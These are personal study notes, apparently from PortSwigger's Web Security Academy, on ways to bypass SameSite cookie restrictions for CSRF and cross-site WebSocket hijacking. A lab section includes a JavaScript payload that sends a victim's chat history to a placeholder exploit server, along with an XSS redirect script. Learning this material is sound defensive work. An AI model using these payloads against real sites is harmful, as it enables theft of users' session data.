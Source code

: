 
2024-07-24 15:01

Source: #portswigger #web 

Tags: [[CSRF]] [[SameSite cookie]] 

### Bypassing SameSite Lax restrictions using GET requests

If servers also use `Lax` restrictions for their session cookies, either explicitly or due to the browser default, you may still be able to perform a CSRF attack by eliciting a `GET` request from the victim's browser. 
As long as the request involves a top-level navigation, the browser will still include the victim's session cookie. 
2
Even if an ordinary `GET` request isn't allowed, some frameworks provide ways of overriding the method specified in the request line. For example, `Symfony` supports the `_method `parameter in forms, which takes precedence over the normal method for routing purposes

### Bypassing SameSite restrictions using on-site gadgets

- If a cookie is set with the` SameSite=Strict` attribute, browsers won't include it in any cross-site requests. You may be able to get around this limitation if you can find a gadget that results in a secondary request within the same site. 
- One possible gadget is a client-side redirect that dynamically constructs the redirection target using attacker-controllable input like URL parameters.
- Note that the equivalent attack is not possible with server-side redirects. 
If the site is redirecting then find a script that is doing the redirect, study the script, find a parameter that we can manipulate, then do directory traversal 

### Bypassing SameSite restrictions via vulnerable sibling domains

In addition to classic `CSRF`, don't forget that if the target website supports `WebSockets`, this functionality might be vulnerable to cross-site [[WebSocket]] hijacking (CSWSH), which is essentially just a CSRF attack targeting a WebSocket handshake. 
##### Lab:
in the lab we have a chat feature that uses websockets, when capturing the request on burp we see that we send a ready message and the websocket server responds with the entire chat history that is tied to our session cookie
in http history find a response that mentions switching protocol in that corresponding request check if the request contains all the points for it to be CSRF vulnerable. 
###### samesite: None
 
with no restrictions we can add the following script on our website 
once the victim has visited the page we see that we can see the chat message from our victim now but because of the same site equals strict session cookie restriction we're only seeing chat messages or the chat message for a new chat session.

```js
<script>
var webSocket = new WebSocket("lab-url/chat");

webSocket.onopen = function(evt){
	webSocket.send("READY");
};

webSocket.onmessage = function(evt){
	var message = evt.data;
	fetch("exploit-server-url/exploit?message=")+btao(message);
};
</script>
```
###### samesite: Strict

- If our application was something like a Blog I would look for the comments section and I would check whether the any of the fields in the comment section are vulnerable to a stored cross-site scripting attack because that way we could store our payload in there and send our victim a link to the post that includes our payload that we injected through cross-site scripting
- but our application is just a product page 

- we see for request with `chat.js` for example we can see that the response header `Access-Control-allow-origin` here reveals an additional sibling domain and it's hosted on the same main domain
- If there was a stored cross-site scripting or reflected cross-site scripting vulnerability within this endpoint it would still honor the same site restriction
- since there is a reflected xss vuln on the new domain 
- we see that the login (new domain) endpoint also accepts our payload as a get request
- the payload we used in `samesite: None` can be used on the new domain
- we url encode the whole payload and add it to the url of the new domain 
- when crafting the payload on the exploit server we write
```
<script>
	document.location="newdomain-url/urlencoded-payload";
</script>
```

#### Bypassing SameSite Lax restrictions with newly issued cookies

If a website doesn't include a `SameSite` attribute when setting a cookie, Chrome automatically applies `Lax` restrictions by default. However, to avoid breaking single sign-on (SSO) mechanisms, it doesn't actually enforce these restrictions for the first 120 seconds on top-level POST requests. As a result, there is a two-minute window in which users may be susceptible to cross-site attacks.

This two-minute window does not apply to cookies that were explicitly set with the `SameSite=Lax` attribute.

It's somewhat impractical to try timing the attack to fall within this short window. On the other hand, if you can find a gadget on the site that enables you to force the victim to be issued a new session cookie, you can preemptively refresh their cookie before following up with the main attack. For example, completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site. 

 To trigger the cookie refresh without the victim having to manually log in again, you need to use a top-level navigation, which ensures that the cookies associated with their current OAuth session are included. This poses an additional challenge because you then need to redirect the user back to your site so that you can launch the CSRF attack.

Alternatively, you can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack. A minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction. For example, the following popup will be blocked by the browser by default:
```js
window.open('https://vulnerable-website.com/login/sso');
```

To get around this, you can wrap the statement in an onclick event handler as follows:
```js
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

This way, the `window.open()` method is only invoked when the user clicks somewhere on the page. 

### References
